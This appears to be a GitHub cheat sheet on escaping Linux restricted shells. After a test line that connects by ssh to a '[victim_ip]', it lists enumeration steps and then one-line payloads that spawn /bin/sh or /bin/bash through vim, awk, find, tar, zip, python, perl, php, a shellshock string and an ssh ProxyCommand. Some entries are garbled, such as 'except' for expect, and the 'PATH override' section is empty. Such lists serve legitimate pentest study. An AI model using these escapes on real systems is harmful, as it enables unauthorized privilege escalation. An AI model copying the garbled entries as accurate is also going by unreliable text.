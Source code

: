 ### Test 
```
ssh user_name@[victim_ip] bash
```

### Enumarate 
- command 
  - cd
  - ls
  - echo

- operators 
  - >
  - <
  - >>
  - |

- programming languages
  - perl
  - ruby
  - python
  - php
  
- commands as root
  - sudo -l

- check files with suid

- check env variable
  - run env
  - printenv

- check shell
  - echo $SHELL
  
### Common Techniques
- '/' run /bin/sh or /bin/bash
- 'cp' copy /bin/sh or /bin/bash into your directory
- 'ftp' run ftp>!/bin/bash or ftp>!/bin/sh
- 'gdb' run gdb>!/bin/bash or gdb>!/bin/sh
- 'vim' run vim>!/bin/bash or vim>!/bin/sh
- 'rvim' run rvim>:python import os;os.system("bin/bash")
- 'scp' run scp>scp -S /path/your/script x y:
- 'awk' run awk>awk 'BEGIN {system("/bin/sh or /bin/bash")}
- 'find' run find>find / -name test -exec /bin/sh or /bin/bash \;

### Programming Languages Techniques
- 'except' run except> except spawn sh thne sh
- 'python' run python -c 'import os;os.system("/bin/sh")'
- 'php' run php>php -a then exec("sh -i");
- 'perl' run perl>perl -e 'exec"/bin/sh";'
- 'lua' run lua>os.execute('/bin/sh')
- 'ruby' run ruby>exec "/bin/sh"

### Advance Techniques
- 'ssh' run ssh>ssh username@IP - t "/bin/sh" or "/bin/bash"
- 'ssh2' run ssh2>ssh username@IP -t "bash --noprofile"
- 'ssh3' run ssh3>ssh username@IP -t "() { :; }; /bin/bash" (shellshock)
- 'ssh4' run ssh4>ssh -o ProxyCommand="sh -c /tmp/yourfile.sh" 127.0.0.1 (SUID)
- 'tar' run tar>tar cf /dev/null testfile --checkpoint=1 --checkpoint- action=exec=/bin/bash
- 'zip' run zip>zip /tmp/test.zip /tmp/test -T --unzip-command="sh -c /bin/bash"
- 'pico' run pico>pico -s "/bin/bash" then you can write /bin/bash and then CTRL + T
- 'git' run git>git help status > you can run it then !/bin/bash

### PATH override


### References
- https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf
